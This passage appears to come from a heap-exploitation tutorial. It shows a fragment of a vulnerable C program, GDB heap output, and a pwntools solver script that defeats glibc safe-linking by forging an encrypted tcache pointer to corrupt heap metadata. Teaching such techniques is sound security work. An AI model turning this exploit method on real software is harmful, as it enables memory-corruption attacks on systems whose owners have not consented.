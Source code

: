 ```c
    a = malloc(0x20);
    // get the corrupted allocation from tcache
    b = malloc(0x20);
    printf("B is allocated at: %p\n", b);
    // read into new b buffer
    read(0, b, 0x10);
    return 0;
}
```

In order to corrupt `b` we need to know its address. We know that it is in the first page of the heap and thus can find its offset by quickly running [[safe_linking_corruption]] in GDB and breaking after the allocations.

```
gef➤  heap chunks
Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559010     00 00 02 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5555555592a0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592a0     59 55 55 55 05 00 00 00 52 21 fa f5 52 6b 73 d6    YUUU....R!..Rks.]
Chunk(addr=0x5555555592d0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592d0     f9 c7 00 00 50 55 00 00 52 21 fa f5 52 6b 73 d6    ....PU..R!..Rks.]
Chunk(addr=0x555555559300, size=0x410, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559300     45 6e 63 72 79 70 74 65 64 20 70 6f 69 6e 74 65    Encrypted pointe]
Chunk(addr=0x555555559710, size=0x410, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559710     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x555555559b20, size=0x204f0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```

We see that the second `0x30` representing `b` is at an offset of `0x2d0` from the top of the heap. Now we're ready to do our corruption. Say our target is allocating the top of the heap to corrupt `tcache_perthread_struct`'s metadata. We can successfully corrupt the heap by writing the value of `(b >> 12) ^ heap_base` to the cached pointer in `b`. A solver script to do this is shown below:

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-h", "-f"]

B_OFFSET = 0x2d0

p = gdb.debug("./safe_linking_corruption", '''
    b *(main + 200)
    continue
''')

# handle leak
p.recvuntil(b": ")
leak = int(p.recvline(), 16)
heap_base = leak << 12
b = heap_base + B_OFFSET
print("Heap base address: " + hex(heap_base))
print("b address:         " + hex(b))

# prepare and send encrypted pointer to corrupt tcache
encrypted = (b >> 12) ^ heap_base
p.sendline(p64(encrypted))

# corrupt the targeted memory!
p.recvline()
p.send(b'AAAAAAAAAAAAA')

p.interactive()
```